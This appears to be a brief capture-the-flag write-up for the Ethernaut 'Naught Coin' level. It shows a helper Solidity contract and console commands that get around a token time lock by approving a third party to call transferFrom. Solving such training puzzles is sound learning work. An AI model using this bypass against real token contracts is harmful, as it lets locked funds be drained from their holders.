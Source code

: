 ### Goals

Set player balance to 0

### Exploit

We start with huge amount of tokens and need to get rid of them. But the tranfer function makes sure that it is only avaiable after 10 years, but it only checks this if the msg.sender is player so we will bypass this check.

```code
modifier lockTokens() {
    if (msg.sender == player) {
        require(block.timestamp > timeLock);
        _;
    } else {
        _;
    }
  }
```

### Code

Our balance is 1000000000000000000000000

Deploy basic contract in Remix

```code
contract NaughtyContract {
    function transfer(address token) public {
        token.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", msg.sender, address(this), 1000000000000000000000000));
    }
}
```

Using Ethernuat console approve our helper contract to spend our tokens and call `NaughtContract::transfer()`

```
await contract.approve('0xc5D5300071980158cfEC7bBF154AA7edcc738cAA', 1000000000000000000000000)
await naught.transfer(NAUGHT_COIN_ADDRESS)
```

Done!
